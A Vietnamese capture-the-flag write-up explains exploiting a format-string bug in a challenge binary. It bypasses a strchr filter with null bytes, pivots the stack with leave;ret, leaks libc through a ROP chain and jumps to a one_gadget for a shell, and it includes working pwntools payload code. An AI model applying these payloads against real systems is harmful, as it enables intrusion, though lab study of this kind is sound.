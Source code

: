 **1. Tìm bug**
  - Xem qua ida, hàm main không có gì hot chủ yếu call vuln
  - ![image](https://user-images.githubusercontent.com/113702087/214854559-43ddf861-53ed-44a1-b81e-987c0c1dc774.png)
  - ở đây ta thấy ngay lỗi fmt, có một chút trở ngại để thực hiện %n vì khi nhập chuỗi s được kiểm tra qua hàm strchr
  - ta có thể lợi dụng điểm dừng của hàm strchr là null byte để đưa %n vào, đồng thời dùng %c để kéo dãn độ dài s bù vào null byte đó thì có thể thực thi được %n
  - Sau khi debug vài lần thì thấy rằng ```'%6c' + b'\x00'*6' + fmt'``` thì có thể thực thi fmt được với fmt có %n được setup sẵn
  - ![image](https://user-images.githubusercontent.com/113702087/214909361-7d68a056-02bf-43b9-9ade-38e12a00aea0.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214909428-029d364d-396a-441c-a476-10e5d81b1aab.png)

**2. Ý tưởng**
  - Tôi sẽ thay đổi saverbp thành 1 địa chỉ nằm trong khoảng buf và saverip thành leave ; ret lúc này rsp sẽ thành (rbp + 8) và vì nằm trong khoảng buf nên ta có thể ghi các ROP vào
  - Do mỗi khi thực hiện fmt thì các dữ liệu đều được ghi vào đó khiến việc setup địa chỉ trong stack khá khó khăn vì có thể bị các dữ liệu mới ghi đè vào, cũng như chỉ có thể ghi được 1 byte và không quá lớn
  - ![image](https://user-images.githubusercontent.com/113702087/215037508-00decbc8-7d7e-4c05-bd12-bc4a797bb640.png)
  - Tôi đã test thử '%20c%24$n'
  - ![image](https://user-images.githubusercontent.com/113702087/215037561-7a564f07-c5ef-4972-818a-950e0c71068b.png)
  - Chúng ta có thể thấy sự thay đổi của stack
  - Byte của saverip cần chuyển là 0xad = 173, đây sẽ là byte lớn nhất vì nếu lớn hơn thì số lượng gadget càng ít, từ (buf + 0xad) các dữ liệu trên stack sẽ không bị ghi đè
  -  Để địa chỉ nguyên vẹn ta sẽ làm tròn thành 0xb0, từ (buf + 0xb0) trở đi ta có thể ghi các địa chỉ cần ghi đè và ROP
  - Ở đây tôi chỉ ghi 2 địa chỉ do đó các ROP sẽ bắt đầu ghi từ (buf + 0xc0) -> saverbp mới là (buf + 0xb8) -> ghi được 8 stack, khá ít nhưng thế cũng là đủ

**3. Exploit**
  - **leak địa chỉ buf và tính cách giá trị cho fmt**
  ```
  r.recvuntil(b'at ')
out = r.recv(14)
buff_addr = int(out, 16)
print(hex(buff_addr))


saverip = buff_addr + 280
saverbp = buff_addr + 288
rbp_addr = buff_addr + 272
leave_ret = 0x00000000004012ad

libc.sym['one_gadget'] = 0xe3b01



new_saverbp = buff_addr + 184
print('buff_add: ' + hex(new_saverbp))
s_newsaverbp = str(hex(new_saverbp))
off_set = int('0x' + s_newsaverbp[12:14], 16)
print(off_set)
  ```
  
  ```
  if off_set - 9 < 0:
    r.close()
elif off_set > 0xad :
    r.close()
  ```
  - ở đây offset cho %n phải > 9 do %6c đã tạo ra 9 byte nên lúc ghi vào sẽ >= 9 byte, đồng thời phải < 0xad là byte của saverip mới ( leave ; ret )
  - **Tạo payload**
  ```
  payload = b'%6c'.ljust(8, b'\x00') + b'\x00' + b'%' + str(off_set - 9).encode('utf-8') + b'c%27$hhn' + b'%' + str(0xad - off_set).encode('utf-8') + b'c%28$hhn' 
payload = payload.ljust(56, b'\x00') + b'\x00'*120 + p64(rbp_addr) + p64(saverip) + p64(pop_rdi) + p64(exe.got['printf']) + p64(exe.sym['printf']) + p64(ret) + p64(exe.sym['vuln']) + p64(pop_rbp) + p64(buff_addr) + p64(leave_ret)
  ```
  - Ban đầu leak libc rồi thực thi lại vuln để ghi onegadget tiếp đó thay đổi rbp và leave ; ret vào onegadget
  - **Leak libc**
  ```
  out = r.recv(6)
print(out)
libc_leak = u64(out + b'\x00'*2)
libc.address = libc_leak - libc.sym['printf']
print('libc_base: ' + hex(libc.address))
print('one_gadget: ' + hex(libc.sym['one_gadget']))
  ```
  - **Gửi payload có onegadget**
  ```
  payload = b'n'*55 + p64(libc.sym['one_gadget'])
r.sendlineafter(b': ', payload)
  ```
  - Do có 1 byte null tràn xuống nên chỉ cần ghi 55 byte
  - **Get shell**
  - ![image](https://user-images.githubusercontent.com/113702087/215040212-56973d58-24ab-41ea-a351-4b14b6990022.png)
  
